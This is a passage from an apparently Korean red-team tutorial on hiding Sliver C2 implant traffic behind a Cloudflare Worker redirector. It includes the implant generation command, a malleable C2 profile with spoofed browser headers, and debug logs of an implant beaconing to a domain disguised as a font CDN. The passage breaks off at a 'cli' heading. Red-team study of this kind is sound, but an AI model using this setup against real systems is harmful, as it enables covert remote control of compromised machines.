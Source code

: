 <figure><img src="../.gitbook/assets/cloudflare-tunnel-worker-rdr.png" alt=""><figcaption></figcaption></figure>

모든 설정이 끝났으니, 맨 처음 설명했던대로 트래픽이 전송될 것이다.

다음은 Sliver v1.5.42와 간단한 Malleable C2 프로필, 그리고 `generate --debug -b https://<워커노드>.workers.dev -f exe -s /tmp/sliver-int.exe` 를 이용한 테스트다.

**설정에 사용된 malleable c2의 헤더 + UA**

```json
# cat ~/.sliver/config/http-c2.json 

"implant_config": {                                                      
	"user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.3339.396 Safari/537.36",
	"chrome_base_version": 100,
	"macos_version": "10_15_7",
	"url_parameters": null,
	"headers": [      
	{                     
		"name": "Red-Team-Playbook",
		"value": "testov2"
	},                                                           
	{                                                            
		"name": "Some-Random-Header",    
		"value": "choisecurity"       
	}                     
	], 
	
< ... 생략 ... > 
```

**슬리버 에이전트 + 팀 서버 출력**&#x20;

```bash
# 슬리버 에이전트 
2024/12/28 23:34:58 transports.go:104: Return generator: (chan *url.URL)(0xc000086780)
2024/12/28 23:34:58 transports.go:92: Yield c2 uri = 'https://lucky-star-82bd.kr-fonts-cdn.workers.dev'
2024/12/28 23:34:58 transports.go:92: Yield c2 uri = 'https://lucky-star-82bd.kr-fonts-cdn.workers.dev'
2024/12/28 23:34:58 session.go:84: Next CC = https://lucky-star-82bd.kr-fonts-cdn.workers.dev
2024/12/28 23:34:58 session.go:84: Next CC = https://lucky-star-82bd.kr-fonts-cdn.workers.dev
2024/12/28 23:34:58 session.go:172: Connecting -> http(s)://lucky-star-82bd.kr-fonts-cdn.workers.dev
2024/12/28 23:34:58 transports.go:92: Yield c2 uri = 'https://lucky-star-82bd.kr-fonts-cdn.workers.dev'
2024/12/28 23:34:58 drivers_windows.go:36: Using go http driver
2024/12/28 23:34:58 provider_windows.go:145: [proxy.Provider.readWinHttpProxy] No proxy discovered via AutoDetect: winapi error #12180
2024/12/28 23:34:58 httpclient.go:682: [http] segments = [], filename = rpc, ext = php
2024/12/28 23:34:58 crypto.go:217: TOTP Code (2024-12-28 14:34:58.8819973 +0000 UTC): 87957323
2024/12/28 23:34:58 httpclient.go:343: [http] POST -> https://lucky-star-82bd.kr-fonts-cdn.workers.dev/rpc.html?d=45268pp69&kz=87957py323 (266 bytes)

# cli 
```